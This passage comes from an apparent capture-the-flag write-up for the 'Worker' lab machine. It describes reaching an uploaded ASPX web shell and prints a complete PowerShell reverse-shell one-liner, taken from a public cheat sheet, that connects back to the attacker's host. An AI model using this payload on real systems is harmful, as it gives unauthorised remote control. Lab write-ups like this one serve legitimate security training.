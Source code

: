 <img src="/assets/img/ChallengeVMs/Worker/img6.png"  style="width: 100%" />
</p>

In order to access the web shell, I browsed to <http://spectral.worker.htb/hotshoto.aspx> and was presented with the aspx webpage that I uploaded:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Worker/img7.png"  style="width: 80%" />
</p>

In the meantime, I started a netcat listener on my local Kali machine and I used the payload available from the following link: <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell> in order to create the reverse shell. The payload is provided below:

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.21',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


## Lateral Movement using IIS AppPool

Now that I had access to the host, I ran some basic enumeration in order to determine the rights that the current `AppPool` user had. The output of which is provided below:
